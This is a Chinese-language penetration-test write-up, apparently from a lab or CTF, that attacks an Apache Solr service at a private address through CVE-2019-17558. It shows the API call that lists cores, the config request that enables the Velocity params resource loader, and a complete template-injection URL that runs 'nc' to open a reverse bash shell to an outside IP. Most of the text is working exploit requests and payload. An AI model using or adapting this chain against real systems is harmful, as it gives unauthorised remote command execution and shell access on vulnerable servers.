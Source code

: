先打`192.168.10.110`的solr服务

用CVE-2019-17558打

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```json
http://192.168.10.110:8983/solr/admin/cores?indexInfo=false&wt=json


返回请求：
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{
    "new_core":{
      "name":"new_core",
      "instanceDir":"/usr/local/solr/solr-7.3.1/server/solr/new_core",
      "dataDir":"/usr/local/solr/solr-7.3.1/server/solr/new_core/data/",
      "config":"solrconfig.xml",
      "schema":"managed-schema",
      "startTime":"2023-10-16T03:20:01.028Z",
      "uptime":8368458}}}
```

可得核心为`new_core`

通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称(最好抓包来重新发包，hackbar似乎改不成功)：

```http
POST /solr/new_core/config HTTP/1.1
Host: 192.168.10.110:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

之后，注入Velocity模板即可执行任意命令：

Exp

```
http://192.168.10.110:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27nc%2099.99.99.165%202333%20-e%20/bin/bash%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```
